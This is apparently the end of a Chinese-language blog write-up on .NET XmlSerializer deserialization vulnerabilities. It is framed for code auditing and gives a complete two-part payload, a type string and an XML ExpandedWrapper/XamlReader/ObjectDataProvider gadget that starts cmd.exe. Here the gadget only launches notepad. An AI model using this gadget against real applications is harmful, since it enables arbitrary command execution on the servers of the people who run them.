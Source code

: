 ```
```
这里把payload分成2部分使用

>Type

```
System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089

```

>XML

```

<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<ExpandedElement/>
<ProjectedProperty0>
    <MethodName>Parse</MethodName>
    <MethodParameters>
        <anyType  xsi:type="xsd:string">
            &lt;ResourceDictionary xmlns=&quot;http://schemas.microsoft.com/winfx/2006/xaml/presentation&quot; xmlns:x=&quot;http://schemas.microsoft.com/winfx/2006/xaml&quot; xmlns:System=&quot;clr-namespace:System;assembly=mscorlib&quot; xmlns:Diag=&quot;clr-namespace:System.Diagnostics;assembly=system&quot;&gt;
                &lt;ObjectDataProvider x:Key=&quot;LaunchCmd&quot; ObjectType=&quot;{x:Type Diag:Process}&quot; MethodName=&quot;Start&quot;&gt;
                    &lt;ObjectDataProvider.MethodParameters&gt;
                        &lt;System:String&gt;cmd&lt;/System:String&gt;
                        &lt;System:String&gt;/c notepad.exe&lt;/System:String&gt;
                    &lt;/ObjectDataProvider.MethodParameters&gt;
                &lt;/ObjectDataProvider&gt;
            &lt;/ResourceDictionary&gt;
        </anyType>
    </MethodParameters>
    <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
</ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>

```

这里位于`anyType`的`xmlns:xsi`如果按照生成的payload使用会造成`xsi`是未声明的前缀，所以这里我把他提前到`ExpandedWrapperOfXamlReaderObjectDataProvider` 。

# 0x03 总结


.NET反序列化的攻击链还是比较难找。审计的话就看`type` 和 `xml` 这2个值是否可控。



### 参考文章:

[《.NET高级代码审计（第一课）XmlSerializer反序列化漏洞》](https://www.anquanke.com/post/id/172316)

[《.Net反序列化那些事》](https://mp.weixin.qq.com/s/0ztdMsdEeEBWM0j8uEF_Cw)